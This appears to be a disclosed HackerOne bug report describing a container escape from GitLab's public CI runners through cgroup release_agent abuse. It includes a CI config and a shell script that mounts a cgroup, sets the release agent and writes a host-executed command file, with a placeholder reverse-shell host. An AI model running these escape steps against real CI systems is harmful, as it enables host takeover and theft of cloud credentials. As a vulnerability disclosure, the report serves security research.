 # Container escape on public GitLab CI runners

## Report Details
- **Report ID**: 1442118
- **URL**: https://hackerone.com/reports/1442118
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-01-06T00:29:40.807Z
- **Disclosed**: 2022-04-27T11:12:25.142Z

## Reporter
- **Username**: ec0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

It is possible to circumvent the isolation in place for build jobs running on public CI runners by escaping the docker container running the build job.
This is possible via abuse of the cgroup release_agent functionality, made possible by CI jobs being allowed to mount filesystems inside the container.

From this host, I was able to spawn a root remote shell and run whatever I liked without restriction, including bypassing the iptables rules put in place to prevent access to the GCP metadata API. I was also able to gather sensitive data such as the instance token, GCP project ID and instance configuration, docker host TLS keys, firewall details, suricata configuration and user account names for the ops team, which could aid in further exploitation for a motivated attacker.

### Steps to reproduce

1. Sign up for a regular, free GitLab account.
2. Create a new project.
     An example repo is here: https://gitlab.com/ec0bb/citest (made private)
3. Add the below `.gitlab-ci.yaml`
```
image: python:latest
run:
  script:
    - bash shell.sh
```
4. Add the below `shell.sh`
```
export HOST=your.reverse.shell.box # customise this!

mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
export host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

touch /user/txt
touch /ca.pem
touch /server.pem
touch /server-key.pem
touch /ps.txt
echo '#!/bin/sh' > /cmd
echo "whoami > $host_path/user.txt" >> /cmd
```